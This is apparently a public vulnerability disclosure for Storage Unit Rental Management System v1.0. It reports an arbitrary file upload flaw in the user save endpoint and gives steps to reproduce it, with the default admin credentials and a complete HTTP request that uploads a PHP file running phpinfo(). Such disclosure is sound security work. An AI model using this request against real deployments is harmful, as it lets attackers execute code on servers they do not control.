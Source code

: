 # Storage Unit Rental Management System v1.0 has arbitrary file upload

BUG_Author: bit3hh

Website source address:https://www.sourcecodester.com/php/14932/storage-unit-rental-management-system-using-php-free-source-code.html

Vulnerability url: /storage/classes/Users.php?f=save

post form-data parameter 'filename' exists arbitrary file upload

##### Steps to reproduce

1.Go to the admin Dashboard

http://localhost/storage/admin/login.php

Default Admin Access Information

Username: admin / Password: admin123

2.Click on User List and Click on +Create New

![image](https://github.com/ret2hh/bug_report/blob/main/upload1.png)

3.Any file can be uploaded, such as uploading php code

```
POST /storage/classes/Users.php?f=save HTTP/1.1
Host: localhost
Content-Length: 782
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWEK02qqTsnNh5aIU
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/storage/admin/?page=user/manage_user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=31osi92l18vkna98judnbogmkg
Connection: close

------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="firstname"

a
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="lastname"

b
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="username"

c
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="password"

d
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="type"

1
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="img"; filename="info.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>
------WebKitFormBoundaryWEK02qqTsnNh5aIU--
```

4.Access to uploaded files can be executed successfully

![image](https://github.com/ret2hh/bug_report/blob/main/upload2.png)
